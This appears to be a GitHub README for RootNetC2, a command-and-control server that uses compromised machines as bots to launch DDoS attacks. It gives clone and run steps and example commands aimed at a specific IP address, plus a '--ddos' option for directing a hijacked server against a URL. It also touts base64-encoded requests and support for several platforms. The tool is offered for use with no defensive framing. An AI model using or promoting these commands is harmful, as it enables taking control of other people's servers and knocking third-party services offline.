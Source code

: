 
# RootNetC2

RootNetC2 Is a  Command and control Server.
And using the Compromissed server as a bot to DDoS Servers.





## Deployment

To deploy this project run

```bash
  git clone https://github.com/kryptonx2/RootNetC2.git
  cd Downloads/or the directory you have the file
  python3 c2.py -h
```


## Usage/Examples

```
python3 c2.py --target 187.200.54.181 --port 80 --localhost 127.0.0.1 --lp 80

## To Send the Compromissed Server to DDoS use

python3 c2.py --target 187.200.54.181 --port 80 --localhost 127.0.0.1 --lp 80 --ddos <url>
```


## License

[MIT](https://choosealicense.com/licenses/mit/)


## Features

- Easy to Use
- Multi Plataform [linux, MacOS, Windows]
- Base64 Encrypted Request's



## Authors

- [@rootkitcybersec](https://github.com/kryptonx2)

